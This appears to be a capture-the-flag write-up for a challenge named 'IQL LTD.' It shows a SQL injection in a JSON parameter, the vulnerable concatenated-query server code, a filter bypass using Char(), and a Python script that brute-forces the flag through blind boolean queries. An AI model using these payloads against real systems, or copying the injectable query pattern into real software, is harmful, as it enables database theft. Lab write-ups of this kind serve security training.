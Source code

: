 # IQL LTD.
Find the names.

Flag format: CTF_BD{[0-9A-Za-z]+}

Author: Ashraful Islam <0xAgun>

# Overview

This Capture The Flag (CTF) challenge focuses on exploiting a SQL injection vulnerability in the 'quest1' parameter of an SQLite database. The challenge is designed to test your skills in identifying and exploiting common web application security flaws.

The goal of this challenge was to retrieve the flag stored in the database by exploiting the SQL injection vulnerability in the 'quest1' parameter.

![MIT License](https://i.imgur.com/fykxmtb.png)


# Exploitation

after browsing some while you can notice that if you come over next page and click on the submit button it'll just return a alert on the screen.
but after analyzing the request we can see the difference.

Request

```http
POST /search/ HTTP/1.1
Host: xx.xx.xxx.xxx:8000
Content-Length: 14
X-CSRFToken: CKuPRwpYszHiyS0RUKTFimRMTvFyV0fR1B8bxV4udXDV8ZllhPhmDoXOD4tM47IW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://xx.xx.xxx.xxx:8000
Referer: http://xx.xx.xxx.xxx:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=z1OwQzPGVy6NKhvExfyRvcgcUJYojhDf
Connection: close

{"quest1":"1"}
```

Response

```http
HTTP/1.1 500 Internal Server Error
Date: Mon, 09 Oct 2023 16:32:23 GMT
Server: WSGIServer/0.2 CPython/3.10.2
Content-Type: application/json
X-Frame-Options: DENY
Content-Length: 33
Vary: origin
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Cross-Origin-Opener-Policy: same-origin

{"error": "Something Went wrong"}
```


this is the normal request but if we change the  ```{"quest1":"2"}``` the response is different now ... its 200 Ok


now to check for sqli  {"quest1":"2 AND 1=1"} it got blocked 


```py
          if len(query) <= 2:
                try:
                    cursor.execute('SELECT No FROM polls_maths WHERE id='+pretty['quest1'])
                    row = cursor.fetchall()
                    print(row)
                    convert = int(row[0][0])
                    return JsonResponse({'results': convert})
                except Exception:
                    return JsonResponse({'error': "Something Went wrong"}, status=500)
            else:
                  patt = r"(select case)"
                                  try:
                                      search = re.search(patt, query, re.IGNORECASE)
                                      # search = re.compile(patt, query)
                                      if search:
                                          print("hello")
                                          pattern2 = r"\(.*,\d,\d\)='.'"
                                          search2 = re.search(pattern2, query, re.IGNORECASE)
                                          if search2:
                                              return JsonResponse({'error': 'Not Acceptable'}, status=406)
                                          else:
                                              cursor.execute('SELECT No FROM polls_maths WHERE id='+pretty['quest1'])
                                              row = cursor.fetchall()
                                              print(row[0][0])
                                              convert = int(row[0][0])
                                              return JsonResponse({'results': convert})
                                      else:
                                          return JsonResponse({'error': "Something Went wrong"}, status=500)
                                  except Exception as e:
                                      print(e)
                  
                                  return JsonResponse({'error': "Something Went wrong"}, status=500)
                  

```
here we can see that if our input is less then 2 or equal 2 if immidiately execute the query and if it's greater then 2 then it go to else block there it check if  (select case) is present or not on the input. If it's not present on the payload it retuns 500 error.

let's verify the injection with select case

```http
POST /search/ HTTP/1.1
Host: xx.xx.xxx.xxx:8000
Content-Length: 53
X-CSRFToken: CKuPRwpYszHiyS0RUKTFimRMTvFyV0fR1B8bxV4udXDV8ZllhPhmDoXOD4tM47IW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://xx.xx.xxx.xxx:8000
Referer: http://xx.xx.xxx.xxx:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=z1OwQzPGVy6NKhvExfyRvcgcUJYojhDf
Connection: close

{"quest1":"(SELECT CASE WHEN 1=1 THEN 2 ELSE 4 END)"}

```
the response


```http
HTTP/1.1 200 OK
Date: Tue, 10 Oct 2023 06:13:27 GMT
Server: WSGIServer/0.2 CPython/3.10.2
Content-Type: application/json
X-Frame-Options: DENY
Content-Length: 14
Vary: origin
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Cross-Origin-Opener-Policy: same-origin

{"results": 2}

```

it returns ok means it's vulnerable .

() is used for query selection if i dont use it's return error as waf is blocking AND operator.


to get the names collumn as given in the description we need to find the table name first i already know this so for the writeup i'll directly use the right column

```http
{"quest1":" (SELECT CASE WHEN EXISTS (SELECT 1 FROM sqlite_master WHERE type='table' AND tbl_name='users') THEN 2 ELSE 4 END)"}
```

and the result will be 200 OK

now it's time to get our flag


```http

{"quest1":"(select case when substr(names,1,1)='C' then 2 else 4 end from users limit 0,1)"}
```

after sending request it get's blocked by our waf ``` pattern2 = r"\(.*,\d,\d\)='.'"```

to bypass this we can use the Char() method of sql 
the final paylaod will look like this

```http

{"quest1":"(select case when substr(names,1,1)=Char(67) then 2 else 4 end from users limit 0,1)"}
```

now just use recursion and brute the flag


i have automated this using python 

```py

import requests



characters = [
    ('a', 97), ('b', 98), ('c', 99), ('d', 100), ('e', 101), ('f', 102), ('g', 103), ('h', 104), ('i', 105), ('j', 106), 
    ('k', 107), ('l', 108), ('m', 109), ('n', 110), ('o', 111), ('p', 112), ('q', 113), ('r', 114), ('s', 115), ('t', 116), 
    ('u', 117), ('v', 118), ('w', 119), ('x', 120), ('y', 121), ('z', 122), ('A', 65), ('B', 66), ('C', 67), ('D', 68), 
    ('E', 69), ('F', 70), ('G', 71), ('H', 72), ('I', 73), ('J', 74), ('K', 75), ('L', 76), ('M', 77), ('N', 78), ('O', 79), 
    ('P', 80), ('Q', 81), ('R', 82), ('S', 83), ('T', 84), ('U', 85), ('V', 86), ('W', 87), ('X', 88), ('Y', 89), ('Z', 90), 
    ('0', 48), ('1', 49), ('2', 50), ('3', 51), ('4', 52), ('5', 53), ('6', 54), ('7', 55), ('8', 56), ('9', 57), 
    ('!', 33), ('"', 34), ('#', 35), ('$', 36), ('%', 37), ('&', 38), ("'", 39), ('(', 40), (')', 41), ('*', 42), ('+', 43), 
    (',', 44), ('-', 45), ('.', 46), ('/', 47), (':', 58), (';', 59), ('<', 60), ('=', 61), ('>', 62), ('?', 63), ('@', 64), 
    ('[', 91), ('\\', 92), (']', 93), ('^', 94), ('_', 95), ('`', 96), ('{', 123), ('|', 124), ('}', 125), ('~', 126)
]



burp0_url = "http://45.76.177.238:8000/search/"
burp0_cookies = {"csrftoken": "z1OwQzPGVy6NKhvExfyRvcgcUJYojhDf"}
burp0_headers = {"X-CSRFToken": "gREtrhNf3Ikb9fe6N7uRVhVZnHw93QWAFIiP7GsLO6gOJmzAacSygj117gkncXpF", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://45.76.177.238:8000", "Referer": "http://45.76.177.238:8000/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}

res = ""

position = 1
while True:
    for x,y in characters:
        ch = str(y)
        burp0_json={"quest1": f"(select case when substr(names,{position},1)=Char({ch}) then 2 else 4 end from users limit 0,1)"}
        re1 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
        if re1.status_code == 200:
            position += 1
            res += x
            print(res)
            continue

```


![MIT License](https://i.imgur.com/YAgkLN7.png)








